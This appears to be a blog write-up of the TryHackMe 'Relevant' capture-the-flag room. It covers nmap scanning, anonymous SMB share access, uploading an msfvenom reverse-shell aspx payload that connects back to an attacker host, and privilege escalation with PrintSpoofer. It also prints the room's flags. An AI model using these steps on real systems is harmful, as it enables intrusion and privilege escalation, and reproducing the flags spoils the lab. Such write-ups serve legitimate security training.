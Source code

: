 ```yaml
---
layout: single
title: Relevant - Try Hack Me
excerpt: "You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation."
date: 2022-12-09
classes: wide
header:
  teaser: /assets/images/thm-writeup-relevant/relevant.png
  teaser_home_page: true
  icon: /assets/images/thm.png
categories:
  - try hack me
tags:
  - Windows
  - IIS
  - privileged
  - msfvenom
---
```


![](/assets/images/thm-writeup-relevant/relevant1.PNG)

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation.

## Portscan

```
nmap -sCV -p80,135,139,445,3389,49663,49667,49669 10.10.254.100
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-09 06:31 EST
Nmap scan report for 10.10.254.100     
Host is up (0.047s latency).
                                                          
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server              
|_http-server-header: Microsoft-IIS/10.0
| http-methods:                                                                                                      
|_  Potentially risky methods: TRACE                                                                                 
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2022-12-08T11:23:33
|_Not valid after:  2023-06-09T11:23:33
|_ssl-date: 2022-12-09T11:33:07+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-12-09T11:32:27+00:00
49663/tcp open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h36m01s, deviation: 3h34m41s, median: 0s
| smb2-time: 
|   date: 2022-12-09T11:32:30
|_  start_date: 2022-12-09T11:23:49
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-12-09T03:32:31-08:00
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```

## SMB

The target host on port 445 and 139 runs a SMB Server, we can list the content, cause the smb server has anonymous user enabled.

![](/assets/images/thm-writeup-relevant/smblist.PNG)

We find a shared folder called nt4wrksv that we can access anonymously.

![](/assets/images/thm-writeup-relevant/smbpasswords.PNG)

Checking the content of passwords.txt file we can see 2 base64 encoded passwords, if we decode them, we get a pair of usernames and passwords.

![](/assets/images/thm-writeup-relevant/smbdecoded.PNG)

If we try to acces the machine with this credentials, we realize that they are not valid. At this point we need to start looking for another attack vector.

## Web

Checking the nmap scan, we can see that the machine is hosting a web server on port's 80 and 49663, that we can access.

![](/assets/images/thm-writeup-relevant/default.PNG)

Both ports have the default IIS template, we can use a subdirectory enummeration tool like ffuf,wfuzz or gobuster in order to discover new files on the server.

`ffuf  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://X.X:X.X:49663/FUZZ -mc 200,301,303`

![](/assets/images/thm-writeup-relevant/ffuf.PNG)

The subdirectory name in IIS, is the same as the shared resource in the smb server, they may be the same, so let's try to upload something into the smb folder and browse it in IIS.

![](/assets/images/thm-writeup-relevant/hellotxt.PNG)

As we can see below, we can acces the file that we just added into the SMB folder, this means that we can upload and execute files in the webserver.

![](/assets/images/thm-writeup-relevant/iistxt.PNG)

## Exploitation

IIS uses .asp and .aspx shell files to execute scripts, so im going to create a reverse shell payload with msfvenom in order to gain acces to the machine.

`sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOURIP LPORT=LOCALPORT -f aspx -o reverse.aspx`

![](/assets/images/thm-writeup-relevant/msfvenom.PNG)

Once we have the payload in the SMB folder we can start a netcat listener and execute the reverse.aspx file on the web browser, and we retrive the reverse shell.\ 
I used curl for this, but you can use your web browser.

`curl -X GET http://10.10.36.237:49663/nt4wrksv/reverse.aspx`

![](/assets/images/thm-writeup-relevant/netcat.PNG)

We can now go to Bob's desktop and retrive the user.txt 

![](/assets/images/thm-writeup-relevant/flag.PNG)

`user.txt: THM{fdk4ka34vk346ksxfr21tg789ktf45}`

## Priv Esc

Now we have a shell in the machine, but we are not a privileged, our goal is to reach system user, so we need to find a way of scalate privileges. There are several ways of doing this, I will sow you the coolest one.

First of all, let's check our privileges as "apppool\defaultapppool" service account user. We can see that SeImpersonatePrivilege is enabled.

![](/assets/images/thm-writeup-relevant/priv.PNG)

If we search at [Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#seimpersonateprivilege-3.1.1) we find 3 ways of exploting this privilege, juicy-potato, RogueWinRM (needs winrm disabled), SweetPotato and PrintSpoofer. 

Im going to use the PrintSpoofer [exploit](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

As we did with the .aspx file, upload the exploit in the smb folder.
Once we uploaded the exploit we can use dir to find it.

![](/assets/images/thm-writeup-relevant/dir.PNG)

The las step is to execute the exploit, in my case I will use `PrintSpoofer64.exe -i -c cmd` to spawn a system shell.

![](/assets/images/thm-writeup-relevant/execute.PNG)

Now we are executing commands as "nt\authority system", navigate to Administrator Desktop to retrive the root.txt

![](/assets/images/thm-writeup-relevant/root.PNG)

`root:THM{1fk5kf469devly1gl320zafgl345pv}`